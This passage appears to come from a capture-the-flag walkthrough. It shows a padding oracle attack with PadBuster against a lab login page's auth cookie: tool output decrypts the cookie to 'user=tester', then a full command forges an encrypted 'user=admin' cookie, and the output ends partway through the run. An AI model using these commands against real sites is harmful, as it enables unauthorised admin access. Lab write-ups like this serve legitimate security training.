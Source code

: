     [+] Success: (20/256) [Byte 8]
    [+] Success: (55/256) [Byte 7]
    [+] Success: (16/256) [Byte 6]
    [+] Success: (186/256) [Byte 5]
    [+] Success: (2/256) [Byte 4]
    [+] Success: (101/256) [Byte 3]
    [+] Success: (203/256) [Byte 2]
    [+] Success: (53/256) [Byte 1]
    
    Block 2 Results:
    [+] Cipher Text (HEX): af22746f35c5fd8b
    [+] Intermediate Bytes (HEX): c3329dfb42f3cbed
    [+] Plain Text: ter
    
    -------------------------------------------------------
    ** Finished ***
    
    [+] Decrypted value (ASCII): user=tester
    
    [+] Decrypted value (HEX): 757365723D7465737465720505050505
    
    [+] Decrypted value (Base64): dXNlcj10ZXN0ZXIFBQUFBQ==
    
    -------------------------------------------------------

The result says that, **user=tester** is being encrypted to resulted string, so its pretty straight forward that we have to create a encrypted phrase with **user=admin**. 


    padbuster http://10.10.10.18/login.php E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L 8 --cookie auth=E050Yqtgn8a3V%2B%2F%2BR%2FbO6K8idG81xf2L --encoding 0 -plaintext user=admin

Note: Replace with your auth value while using above command.


    +-------------------------------------------+
    | PadBuster - v0.3.3                        |
    | Brian Holyfield - Gotham Digital Science  |
    | labs@gdssecurity.com                      |
    +-------------------------------------------+
    
    INFO: The original request returned the following
    [+] Status: 200
    [+] Location: N/A
    [+] Content Length: 1486
    
    INFO: Starting PadBuster Encrypt Mode
    [+] Number of Blocks: 2
    
    INFO: No error string was provided...starting response analysis
    
    *** Response Analysis Complete ***
    
    The following response signatures were returned:
    
    -------------------------------------------------------
    ID#     Freq    Status  Length  Location
    -------------------------------------------------------
    1       1       200     1564    N/A
    2 **    255     200     15      N/A
    -------------------------------------------------------
    